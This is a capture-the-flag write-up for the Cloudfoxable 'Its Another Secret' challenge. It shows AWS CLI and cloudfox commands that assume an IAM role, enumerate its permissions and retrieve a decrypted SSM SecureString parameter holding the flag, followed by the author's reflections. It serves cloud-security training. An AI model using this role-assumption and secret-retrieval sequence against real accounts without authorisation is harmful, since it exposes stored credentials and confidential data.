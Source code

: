 # Cloudfoxable Challenge 4 
Its Another Secret

## Solution

Step 1: I first created a new profile in AWS so that I could assume the Ertz role. I updated my AWS config file `~/.aws/config` with the following changes:

```
[profile ertz]
region = us-west-2
role_arn = arn:aws:iam::135808940242:role/Ertz
source_profile = cloudfoxable
```

Step 2:  I checked if I could assume the Ertz role by running this command:

```
aws --profile ertz sts get-caller-identity
```

I got successfully output of assuming the role:

```
{
    "UserId": "AROAR7HWX7DJPPDCSXC6H:botocore-session-1743043615",
    "Account": "135808940242",
    "Arn": "arn:aws:sts::135808940242:assumed-role/Ertz/botocore-session-1743043615"
}
```

Step 4: I run the command given below to list the secrets accessible

```
aws --profile ertz secretsmanager list-secrets
```

It give me the error 
The error indicates that the assumed role Ertz does not have permission to list secrets in Secrets

```
An error occurred (AccessDeniedException) when calling the ListSecrets operation: User: arn:aws:sts::135808940242:assumed-role/Ertz/botocore-session-1743043615 is not authorized to perform:
secretsmanager:ListSecrets because no identity-based policy allows the secretsmanager:ListSecrets action
```

Step 5: To check the permissions of the Ertz role, I used the cloudfox tool command given bleow which specifying the ertz principal and this allowed me to investigate the policies associated with the role and understand its access rights.

```
cloudfox aws -p cloudfoxable permissions --principal ertz -v2
```

The output:

```
| Type │ Name │ Policy  │        Policy Name        │ Effect │      Action      │                                     Resource                                      │ Condition │
├──────┼──────┼─────────┼───────────────────────────┼────────┼──────────────────┼───────────────────────────────────────────────────────────────────────────────────┼───────────┤
│ Role │ Ertz │ Managed │ its-another-secret-policy │ Allow  │ ssm:GetParameter │ arn:aws:ssm:us-west-2:135808940242:parameter/cloudfoxable/flag/its-another-secret │ No 
```

This output shows  showed that the Ertz role had permission to perform the `ssm:GetParameter` action on the cloudfoxable secret. This indicated that while it couldn't list all secrets, it had specific access to the cloudfoxable secret.

Step 6: As we leran that we need to run the command to retrieve the value of a specific encrypted parameter `/cloudfoxable/flag/its-another-secret` from `AWS SSM Parameter` Store, 
using the ertz profile with decryption enabled. This allows you to access the secret stored in the parameter.

```
aws --profile ertz --region us-west-2 ssm get-parameter --with-decryption --name /cloudfoxable/flag/its-another-secret
```

Finally, the output give the flag value:

```
{
    "Parameter": {
        "Name": "/cloudfoxable/flag/its-another-secret",
        "Type": "SecureString",
        "Value": "FLAG{ItsAnotherSecret::ThereWillBeALotOfAssumingRolesInThisCTF}",
        "Version": 1,
        "LastModifiedDate": "2025-03-05T22:17:44.654000-05:00",
        "ARN": "arn:aws:ssm:us-west-2:135808940242:parameter/cloudfoxable/flag/its-another-secret",
        "DataType": "text"
    }
}
```
The value of secret flag is `FLAG{ItsAnotherSecret::ThereWillBeALotOfAssumingRolesInThisCTF}`

## Reflection

* **What was your approach?**

 The process began with role assumption before using AWS CLI to check permissions followed by taking advantage of the permitted actions and roles to access the secret.

* **What was the biggest challenge?**

  The primary challenge in this process involved understanding which permissions were assigned to the Ertz role. I initially believed Secrets Manager access was needed yet an error proved that the role did not have proper authorization for this function.

* **How did you overcome the challenges?**

  I solved the challenge by utilizing cloudfox to view the permissions of the Ertz role permissions. The role possessed `ssm:GetParameter` privilege that gave me access to retrieve the secret through AWS Systems Manager.

* **What led to the breakthrough?**

  I reached a critical understanding that the role needed `ssm:GetParameter` permission to proceed. My understanding led me to pull the parameter from AWS Systems Manager to obtain access to the flag.
  The procedure proved how crucial it is to understand role permissions while using appropriate AWS services for retrieving confidential information.

* **On the blue side, how can the learning be used in the future?**

  Undergoing this experience taught me about the importance of knowing every role permission detail before examination. My future usage of cloudfox tools will become more effective for analyzing permissions because it helps me find hidden secrets or flags much more efficiently.
  The method aims to simplify data changes by reducing time-consuming issues that might occur in future security tests.
